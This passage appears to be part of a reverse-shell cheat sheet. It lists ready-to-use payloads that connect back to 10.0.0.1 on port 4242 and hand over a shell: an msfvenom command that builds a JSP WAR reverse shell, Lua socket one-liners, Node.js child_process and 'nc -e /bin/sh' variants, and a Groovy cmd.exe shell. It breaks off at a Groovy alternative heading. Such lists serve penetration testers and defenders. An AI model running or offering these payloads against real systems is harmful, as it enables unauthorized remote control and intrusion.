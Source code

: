 ## War
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp
# in order to get the name of the file
```

## Lua
### Linux
```
lua -e "require('socket'); require('os'); t=socket.tcp(); t:connect('10.0.0.1', '4242'); os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
### Microsoft Windows and Linux
```
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

## Node.JS
```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')
```

## Groovy
```
String host = "10.0.0.1";
int port = 4242;
String cmd = "cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start(); Socket s=new Socket(host, port); InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream(); while(!s.isClosed()){while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush(); po.flush(); Thread.sleep(50); try {p.exitValue(); break;}catch (Exception e){}}; p.destroy(); s.close();
```
### Groovy | Alternative 1